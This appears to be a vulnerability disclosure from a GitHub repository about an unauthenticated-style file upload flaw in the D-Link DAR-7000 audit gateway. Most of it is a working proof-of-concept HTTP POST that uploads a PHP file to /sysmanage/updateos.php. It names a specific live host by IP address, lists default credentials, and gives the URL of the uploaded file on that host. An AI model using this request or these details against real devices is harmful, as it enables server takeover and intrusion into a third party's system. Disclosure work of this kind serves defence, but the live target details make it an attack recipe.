 The D-LINK DAR-7000 series online behavior audit gateway has a file upload vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official： http://www.dlink.com.cn/

version:DAR-7000

Vulnerability Path ：/sysmanage/updateos.php

Ip：https://60.22.74.195:8443/

Default account password: test/ admin@123

poc:
```
POST /sysmanage/updateos.php? HTTP/1.1
Host: 60.22.74.195:8443
Cookie: PHPSESSID=16b7d22c9d0e23596f887c0d3f7e7920
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 597
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_file_upload"; filename="1.php"
Content-Type: application/octet-stream

<?php phpinfo()?>
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="id_type"

1
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_ck"

1_radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="mode"

set
-----------------------------42328904123665875270630079328—
```

<img width="725" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/d02c0624-e1bc-4651-91fd-1d887cd724cb">

https://60.22.74.195:8443/home/1.php 

<img width="725" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/b8c2de98-c0d7-46ef-8f80-3e1f3605bb67">

